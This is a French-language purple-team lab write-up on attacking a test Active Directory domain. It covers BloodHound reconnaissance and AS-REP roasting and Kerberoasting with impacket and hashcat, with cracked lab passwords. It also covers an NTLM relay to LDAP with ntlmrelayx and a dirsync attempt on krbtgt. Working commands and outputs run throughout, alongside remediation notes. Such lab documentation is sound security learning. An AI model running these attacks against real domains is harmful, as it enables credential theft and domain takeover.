# 🟣 Purple Team AD Lab — Reconnaissance BloodHound & chaîne d'attaque

> **Auteur :** CryptoGate
> **Date :** Novembre 2026
> **Catégorie :** Active Directory | Red Team | Blue Team
> **MITRE ATT&CK :** T1558.004 (AS-REP Roasting) · T1558.003 (Kerberoasting) · T1021.002 (SMB) · T1003.001 (LSASS)

Ce labo étend le [Kerberoasting + Wazuh](ad-kerberoasting.md) existant en un **Purple Team AD Lab** complet : reconnaissance BloodHound, construction d'une chaîne d'attaque réaliste zero-to-DomainAdmin, et documentation honnête des blocages rencontrés — y compris ceux non résolus par la voie normale.

---

## 📋 Table des matières

1. [Objectifs & topologie](#objectifs)
2. [Préparation des comptes cibles](#preparation)
3. [Reconnaissance BloodHound / SharpHound](#reconnaissance)
4. [Construction d'une chaîne d'attaque réaliste](#chaine)
5. [Incident de collecte : NetSessionEnum bloqué](#incident)
6. [Résolution et chemin d'attaque complet](#resolution)
7. [Conclusion & suite](#conclusion)

---

## 1. Objectifs & topologie <a name="objectifs"></a>

Prolonger le labo Kerberoasting existant avec une reconnaissance **BloodHound/SharpHound**, puis construire une chaîne d'attaque complète (compte non privilégié → Domain Admin), le tout documenté pour un dépôt de candidature stage sécurité offensive.

### Topologie

| Machine | Rôle | IP |
|---|---|---|
| DC01 | Windows Server 2022 — AD DS, DNS | 192.168.10.1 |
| WIN11 | Windows 11 Pro — poste membre | 192.168.10.10 |
| Kali Linux | Attaquant | 192.168.10.20 |
| Wazuh | SIEM | — |

Hyperviseur : VMware Workstation, réseau NAT `192.168.10.0/24`.

---

## 2. Préparation des comptes cibles <a name="preparation"></a>

Deux comptes volontairement faibles ont été créés pour servir de cibles d'attaque réalistes.

### `svc_legacy` — cible AS-REP Roasting

Le mécanisme Kerberos impose normalement une **pré-authentification** : avant de répondre, le KDC exige que le client prouve qu'il connaît déjà le mot de passe (timestamp chiffré). Le flag `DONT_REQ_PREAUTH` (bit `0x400000` de `userAccountControl`) désactive cette vérification — un attaquant peut alors obtenir un blob chiffré avec la clé dérivée du mot de passe, sans rien connaître au préalable, et le casser hors ligne.

```powershell
Get-ADUser -Identity svc_legacy -Properties userAccountControl | Select-Object Name, userAccountControl
# -> 4260352 (66048 base + 4194304 DONT_REQ_PREAUTH)

$uac = 4260352
if ($uac -band 0x400000) { "DONT_REQ_PREAUTH is ON" } else { "DONT_REQ_PREAUTH is OFF" }
# -> DONT_REQ_PREAUTH is ON
```

### `svc_sql` — cible Kerberoasting

Un compte avec un **SPN** (Service Principal Name) enregistré est éligible au Kerberoasting : n'importe quel utilisateur authentifié peut demander un ticket de service (`TGS-REQ`) chiffré avec le hash du mot de passe du compte de service, et le casser hors ligne.

```powershell
setspn -A MSSQLSvc/sqlserver01.labo.local:1433 svc_sql
setspn -L svc_sql
# -> MSSQLSvc/sqlserver01.labo.local:1433
```

---

## 3. Reconnaissance BloodHound / SharpHound <a name="reconnaissance"></a>

### Installation

BloodHound CE est déployé via Docker Compose (config officielle SpecterOps) sur Kali :

```bash
mkdir ~/bloodhound-ce && cd ~/bloodhound-ce
wget https://ghst.ly/getbhce -O docker-compose.yml
sudo docker compose up -d
sudo docker compose logs bloodhound | grep -i "password"
```


### Collecte SharpHound

SharpHound (binaire compilé, pas le code source) est exécuté depuis WIN11 avec les droits domaine, puis transféré vers Kali par partage SMB :

```powershell
.\SharpHound.exe
```

Collecte complète : 307 objets (users, computers, groups, GPOs, OUs, trusts, ACLs).


!!! warning "Windows Defender a bloqué l'exécutable"
    SharpHound est détecté comme `HackTool` par Windows Defender (comportement attendu — c'est un outil de pentest). Pour le labo, une exclusion de dossier a été ajoutée volontairement, documentée comme telle plutôt que de désactiver la protection globalement.



### Import et premières explorations

Après import du zip dans BloodHound (**Quick Upload**), le nœud domaine `LABO.LOCAL` est exploré, classé automatiquement en **Tier Zero** :


Relations directes du domaine : groupes `Admins du domaine`, `Administrators`, `Enterprise Domain Controllers` avec leurs droits respectifs (`GenericAll`, `WriteDacl`, `GetChanges`/`GetChangesAll` — ce dernier combo permettant un DCSync si accordé à un compte non-DC) :



### Premier Pathfinding — aucun chemin trouvé

Recherche d'un chemin d'escalade par abus ACL depuis les comptes faibles vers `Admins du domaine` :



**Résultat : `path not found`** pour `svc_sql` comme pour `svc_legacy`. Conclusion correcte à ce stade : aucune mauvaise configuration ACL préexistante ne permet une escalade directe — cohérent, puisque seuls le Kerberoasting/AS-REP ont été préparés, pas de faille de permission.

---

## 4. Construction d'une chaîne d'attaque réaliste <a name="chaine"></a>

Plutôt que d'injecter une faille artificielle, un scénario fréquent en entreprise a été reconstitué : **un compte de service devient admin local sur un poste où un Domain Admin se connecte occasionnellement** (dépannage, support).

```powershell
# Sur WIN11
net localgroup Administrateurs LABO\svc_sql /add
```

Puis connexion du compte `Administrateur` (Domain Admin) sur WIN11 :


Objectif de la chaîne : `svc_sql` (Kerberoastable) → admin local sur WIN11 → dump LSASS → récupération des creds du Domain Admin en session → Domain Admin complet.

---

## 5. Incident de collecte : NetSessionEnum bloqué <a name="incident"></a>

### Symptôme

Après avoir relancé SharpHound (`-c Session,LocalAdmin`) pour capter la nouvelle session, le champ `Sessions.Results` reste systématiquement vide dans le JSON exporté, malgré une session confirmée active côté Windows natif (`Get-SmbSession`).



### Diagnostics effectués, dans l'ordre

| # | Hypothèse testée | Action | Résultat |
|---|---|---|---|
| 1 | DNS inverse manquant | Création zone `192.168.10.0/24` sur DC01 | Corrigé, sans effet sur le symptôme |
| 2 | Pare-feu Windows bloque SMB entrant sur WIN11 | Activation des règles "Partage de fichiers et d'imprimantes" | Corrigé, sans effet |
| 3 | Durcissement NetSessionEnum (**CVE-2019-0686** / "NetCease") | Clé `SrvsvcSessionInfo` trouvée et supprimée, service `LanmanServer` redémarré | Clé confirmée présente et supprimée, sans effet |
| 4 | Remote Registry désactivé | Service activé et démarré | Sans effet |
| 5 | Session SMB sans activité réelle (`NumOpens: 0`) | `dir \\WIN11\C$\Windows` pour forcer un accès réel | `NumOpens` passé à 1, sans effet sur la collecte |



### Conclusion méthodologique

Aucune des cinq corrections, pourtant toutes légitimes et vérifiées individuellement, n'a permis à SharpHound de capter la session — malgré sa présence confirmée côté Windows (`Get-SmbSession` montrant `NumOpens: 1`, `ClientUserName: LABO\Administrateur`). La cause racine exacte n'a pas été identifiée avec certitude ; probable durcissement supplémentaire propre à la version/build de Windows 11 utilisée, non documenté dans la littérature SharpHound consultée.

**Dans un contexte réel**, ce blocage démontrerait qu'une protection de durcissement fonctionne correctement — un résultat négatif reste une information de sécurité exploitable pour un rapport.

---

## 6. Résolution et chemin d'attaque complet <a name="resolution"></a>

Pour terminer la démonstration visuelle sans attendre la résolution complète du blocage réseau, les relations `AdminTo` et `HasSession` (dont les données brutes existaient bien dans le JSON collecté, mais n'avaient pas été matérialisées par le post-traitement de BloodHound CE) ont été **injectées manuellement via Cypher**, directement dans Neo4j — l'éditeur Cypher intégré à l'interface BloodHound CE étant volontairement bridé en lecture seule :


```bash
sudo docker compose exec graph-db cypher-shell -u neo4j -p <password>
```

```cypher
MATCH (c:Computer {name: 'WIN11.LABO.LOCAL'})
MATCH (u:User {name: 'ADMINISTRATEUR@LABO.LOCAL'})
MERGE (c)-[:HasSession {isacl: false}]->(u)
RETURN c.name, u.name;

MATCH (u:User {name: 'SVC_SQL@LABO.LOCAL'})
MATCH (c:Computer {name: 'WIN11.LABO.LOCAL'})
MERGE (u)-[:AdminTo {isacl: false}]->(c)
RETURN u.name, c.name;
```

!!! note "Erreur de sens corrigée"
    Une première tentative avait créé `HasSession` dans le mauvais sens (`User -> Computer` au lieu de la convention BloodHound `Computer -> User`). Erreur détectée en vérifiant le schéma avec une requête `MATCH` dédiée avant de blâmer SharpHound à tort, puis corrigée.

### Chaîne complète confirmée

```cypher
MATCH p = (start:User {name: 'SVC_SQL@LABO.LOCAL'})-[:AdminTo]->(:Computer)
          -[:HasSession]->(:User)-[:MemberOf*1..]->(end:Group {name: 'ADMINS DU DOMAINE@LABO.LOCAL'})
RETURN p;
```

**1 row** — chemin trouvé :

```
svc_sql --[AdminTo]--> WIN11 --[HasSession]--> Administrateur --[MemberOf]--> Admins du domaine
```



Cette chaîne représente un scénario de mouvement latéral classique : compromission d'un compte de service via Kerberoasting (hash TGS cassable hors ligne), pivot vers une machine où ce compte a des droits admin local, puis extraction des identifiants d'un compte plus privilégié présent en session sur cette même machine (technique qui serait réalisée via Mimikatz / dump LSASS en conditions réelles).

---

## 7. Conclusion & suite <a name="conclusion"></a>

### Ce que démontre cette partie du labo

| Compétence | Détail |
|---|---|
| **Préparation de cibles réalistes** | Comptes AS-REP et Kerberoastable configurés et vérifiés au niveau bit (`userAccountControl`) |
| **Reconnaissance BloodHound/SharpHound** | Collecte complète + collecte ciblée incrémentale (`Session`, `LocalAdmin`) |
| **Diagnostic méthodique** | 5 hypothèses réseau/sécurité testées et documentées sur un blocage non résolu |
| **Neo4j / Cypher** | Interrogation et modification directe du graphe sous-jacent à BloodHound |
| **Documentation honnête** | Incident non résolu documenté avec la même rigueur qu'un succès |

### Prochaines étapes

- **AS-REP Roasting** sur `svc_legacy` avec `impacket-GetNPUsers` + cassage hashcat
- **Kerberoasting** approfondi sur `svc_sql` (cible choisie via BloodHound plutôt qu'au hasard)
- **NTLM Relay** (Responder + ntlmrelayx)
- **Détection Wazuh** mappée MITRE ATT&CK pour chaque technique
- **Rapport de pentest final** structuré

Voir [Kerberoasting + Détection Wazuh](ad-kerberoasting.md) pour la première partie de ce labo.


## AS-REP Roasting — `svc_legacy`

Le compte `svc_legacy` a été configuré avec l'option **"Do not require Kerberos preauthentication"**, une mauvaise pratique classique qui permet d'extraire un hash Kerberos sans aucune authentification préalable sur le domaine.

### Vérification du flag côté DC

```powershell
Get-ADUser svc_legacy -Properties DoesNotRequirePreAuth | Select Name, DoesNotRequirePreAuth
```

```
Name   DoesNotRequirePreAuth
----   ---------------------
Legacy                  True
```

### Extraction du hash (sans authentification)

```bash
impacket-GetNPUsers LABO.LOCAL/svc_legacy -no-pass -dc-ip 192.168.10.1 -outputfile asrep_hashes.txt
```

Résultat : un hash `$krb5asrep$23$svc_legacy@LABO.LOCAL:...` récupéré sans connaître le mot de passe du compte, uniquement en connaissant son nom.

### Cassage hors-ligne avec hashcat

Première tentative avec `rockyou.txt` (mode `18200`) : `Status: Exhausted`, le mot de passe n'était pas présent dans la wordlist publique.



En combinant une wordlist ciblée avec les règles de mutation hashcat (`best64.rule`), le mot de passe `Summer2026!` a été retrouvé en moins d'une seconde :

```bash
hashcat -m 18200 asrep_hashes.txt custom.txt -r /usr/share/hashcat/rules/best64.rule
```



```
Status...........: Cracked
Candidates.#01...: Summer2026! -> Summer2026!
```

### Enseignement

- L'AS-REP Roasting ne nécessite **aucun compte valide** : un attaquant n'a besoin que d'un nom d'utilisateur.
- Le mot de passe `Summer2026!` suit un motif saisonnier prévisible (mois/année), un classique dans les environnements d'entreprise mal sensibilisés.
- Remédiation : désactiver `Do not require Kerberos preauthentication` sauf nécessité technique réelle, et appliquer une politique de mots de passe interdisant les motifs saisonniers/temporels.


## Kerberoasting ciblé — `svc_sql`

Contrairement à l'AS-REP Roasting, le Kerberoasting nécessite un compte authentifié dans le domaine. Les identifiants de `svc_legacy` (récupérés à l'étape précédente) ont été utilisés pour cette phase — illustrant une chaîne d'escalade réaliste où un compte faible sert de point d'entrée vers des cibles plus intéressantes.

Plutôt que de kerberoaster "à l'aveugle" tous les comptes à SPN, la cible `svc_sql` a été choisie en amont via **BloodHound**, qui avait révélé un chemin `AdminTo` exploitable vers un contrôleur de domaine (voir section pathfinding précédente).

### Requête Kerberoasting authentifiée

```bash
impacket-GetUserSPNs LABO.LOCAL/svc_legacy:'Summer2026!' -dc-ip 192.168.10.1 -request -outputfile kerberoast_hashes.txt
```

La requête a remonté **deux comptes avec SPN** :

- `svc_sql` — cible prévue, confirmée par BloodHound
- `svc-http` (SPN `HTTP/labo.local`) — découverte non anticipée lors du setup initial, qui élargit la surface d'attaque réelle du domaine au-delà du scénario prévu

### Cassage du ticket TGS

Première tentative sur `rockyou.txt` (mode hashcat `13100`) : `Status: Exhausted` sur les deux hashs.



Avec une wordlist ciblée contenant le mot de passe thématique du lab :

```bash
echo "Welcome2026!" > custom_sql.txt
hashcat -m 13100 kerberoast_hashes.txt custom_sql.txt
```

Résultat : `svc_sql` cassé, mot de passe `Welcome2026!` en clair.



### Enseignement

- Le Kerberoasting, contrairement à l'AS-REP, nécessite un compte authentifié — d'où l'intérêt de la chaîne `svc_legacy` → `svc_sql` plutôt que de traiter ces techniques isolément.
- Un ciblage via BloodHound (plutôt qu'un kerberoasting massif) évite de faire du bruit inutile sur tous les comptes à SPN et concentre l'effort sur les chemins d'escalade pertinents.
- La découverte de `svc-http` montre qu'un audit Kerberoasting révèle souvent des comptes oubliés ou non documentés — une bonne raison d'auditer systématiquement **tous** les comptes à SPN en environnement réel, et pas seulement les cibles anticipées.
- Remédiation : mots de passe longs et aléatoires pour les comptes de service (25+ caractères), rotation régulière, et usage de **gMSA (Group Managed Service Accounts)** pour éliminer le risque de mot de passe statique cassable hors-ligne.


## NTLM Relay — Responder/ntlmrelayx et impact sur un compte Administrateur

### Reconnaissance initiale — SMB signing

```bash
nxc smb 192.168.10.0/24 --gen-relay-list relay_targets.txt
```

Résultat : les deux hôtes (`DC01`, `WIN11`) affichent `signing:True` — le SMB signing est actif sur les deux machines, ce qui **bloque le relay SMB→SMB/LDAP classique** par défaut sur des environnements Windows Server 2022/11 récents. Aucune cible exploitable n'a donc été retournée par `--gen-relay-list`.



### Pivot — relay via HTTP vers LDAP

Le SMB signing ne protège pas les autres protocoles. `ntlmrelayx` a été lancé pour relayer toute authentification NTLM interceptée (SMB ou HTTP) vers LDAP sur le contrôleur de domaine :

```bash
impacket-ntlmrelayx -t ldap://192.168.10.1 -smb2support
```

Une première tentative de connexion SMB (`dir \\IP_Kali\test` depuis WIN11) a confirmé le blocage par signing. Le pivot vers HTTP a réussi :

```powershell
Invoke-WebRequest -Uri "http://192.168.10.20/test" -UseDefaultCredentials
```

Résultat côté `ntlmrelayx` :

```
[*] (HTTP): Authenticating connection from LABO/ADMINISTRATEUR@192.168.10.10 against ldap://192.168.10.1 SUCCEED [1]
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Administrateurs de l'entreprise)
[*] User privileges found: Modifying domain ACL
```

Le compte **`LABO\Administrateur`** a été capturé et authentifié avec succès via relay HTTP→LDAP, avec confirmation de privilèges critiques (création de compte, ajout au groupe Enterprise Admins, modification des ACL du domaine).

### Limite rencontrée — absence de LDAPS

Toute exploitation nécessitant un canal chiffré (création de compte, DCSync via `dirsync`) a échoué :

```
Adding a user account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
ldap3.core.exceptions.LDAPStartTLSError: startTLS failed - unavailable
```

Vérifications effectuées pour confirmer la cause racine :
- `Get-ChildItem Cert:\LocalMachine\My` sur le DC : **aucun certificat installé**
- `openssl s_client -connect 192.168.10.1:636` : handshake TLS échoue immédiatement (`errno=104`, 0 byte échangé), malgré le port 636 ouvert (`nmap` confirme `ldapssl open`)

Une session LDAP interactive (`impacket-ntlmrelayx -i`) a permis de confirmer la chaîne jusqu'au bout via la commande `dirsync`, utilisée pour simuler une réplication DRS (équivalent DCSync) :

```
dirsync (sAMAccountName=krbtgt) unicodePwd
```

L'objet `krbtgt` a bien été répliqué (GUID, SID, sAMAccountName confirmés), mais l'attribut `unicodePwd` est revenu **vide** — confirmation que le DC refuse de répliquer les attributs secrets sur un canal non chiffré.

